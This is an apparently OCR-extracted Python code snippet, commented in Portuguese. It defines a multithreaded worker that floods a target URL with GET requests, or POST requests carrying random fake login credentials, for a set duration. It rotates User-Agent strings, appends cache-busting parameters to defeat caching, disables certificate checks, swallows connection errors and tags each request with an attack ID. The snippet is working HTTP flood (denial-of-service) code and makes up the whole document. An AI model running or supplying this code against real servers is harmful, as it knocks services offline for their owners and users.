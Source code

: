 ```python
request_lock = threading.Lock()

def worker(url, attack_id, method="GET", duration=30):
    """Função de trabalho para cada thread"""
    global request_count
    
    end_time = time.time() + duration
    session = requests.Session()
    
    while time.time() < end_time:
        try:
            headers = {
                "User-Agent": random.choice(USER_AGENTS),
                "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
                "Accept-Language": "en-US,en;q=0.5",
                "Accept-Encoding": "gzip, deflate",
                "Connection": "keep-alive",
                "Upgrade-Insecure-Requests": "1",
                "Cache-Control": "no-cache",
                "Pragma": "no-cache",
                "X-Attack-ID": str(attack_id)  # Para identificação em logs
            }
            
            # Adiciona parâmetros aleatórios para evitar cache
            params = {
                "id": random.randint(1, 1000),
                "t": int(time.time() * 1000),
                "r": random.random()
            }
            
            if method == "GET":
                response = session.get(
                    url, 
                    params=params,
                    headers=headers, 
                    timeout=1,
                    verify=False
                )
            else:  # POST
                # Dados de formulário aleatórios
                data = {
                    "username": f"user_{random.randint(1, 10000)}",
                    "password": f"pass_{random.randint(1, 10000)}",
                    "submit": "Login"
                }
                response = session.post(
                    url, 
                    data=data,
                    headers=headers, 
                    timeout=1,
                    verify=False
                )
            
            # Incrementa o contador global de forma thread-safe
            with request_lock:
                request_count += 1
                
        except requests.exceptions.RequestException:
            # Ignora erros de conexão e continua
            pass
        except Exception as e:
            print(f"Erro: {e}")
```